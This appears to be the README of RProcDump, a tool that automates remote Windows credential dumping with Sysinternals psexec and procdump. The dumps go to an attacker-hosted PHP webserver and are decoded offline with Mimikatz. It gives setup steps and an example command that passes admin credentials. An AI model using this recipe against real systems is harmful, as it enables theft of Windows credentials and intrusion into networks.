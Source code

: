 # RProcDump
Remote Windows credentials dump process automation. 
Can be used to dump Windows credentials remotely and later extract clear text with Mimikatz offline.

Help:
	Host all files in a webserver able to interpret PHP (apache2 on kali linux)
	Edit prameters in procdump.ps1 and run Rprocdump.ps1 with same parameters on attack machine:
	example:
	RProcdump -server http://127.0.0.1 -login administrator -pass password123

Need local admin privileges !!!

 Author: @ThebenyGreen
  - EyesOpenSecurity
  
Credits: Mark Russinovich Sysinternals- psexec.exe and Procdump.exe
